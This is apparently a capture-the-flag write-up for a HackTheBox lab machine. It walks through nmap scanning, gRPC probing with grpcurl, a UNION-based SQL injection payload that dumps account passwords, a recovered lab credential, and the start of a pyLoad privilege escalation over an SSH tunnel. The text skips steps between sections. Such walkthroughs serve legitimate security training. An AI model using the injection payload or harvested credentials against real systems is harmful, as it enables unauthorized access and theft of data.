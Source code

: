 # Introduction

We first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.11.214 pc.htb
```

# Enumeration

We do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV pc.htb
```

We got this result
```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
50051/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

By googling, we found out that the port 50051 is generally used for gRPC service

# gRPC (port 50051)
There is an existing tool in Go language to communicate with gRPC service named grpcurl : https://github.com/fullstorydev/grpcurl
So let's try it :
```bash
$ /home/kali/go/bin/grpcurl -plaintext pc.htb:50051 describe                                         
SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}
grpc.reflection.v1alpha.ServerReflection is a service:
service ServerReflection {
  rpc ServerReflectionInfo ( stream .grpc.reflection.v1alpha.ServerReflectionRequest ) returns ( stream .grpc.reflection.v1alpha.ServerReflectionResponse );
}
```


80 union SELECT group_concat(password) from accounts

sau:HereIsYourPassWord1431

# Exploit pyLoad

We found there is a process owned by root that has launched pyload
if we do pyload --version, we found this is a version 0.5.0
hen googling, we find out by default pyLoad run on port 8000
we can see there is a port listening on 8000
if we do a ssh tunneling, we can see the website in our local browser

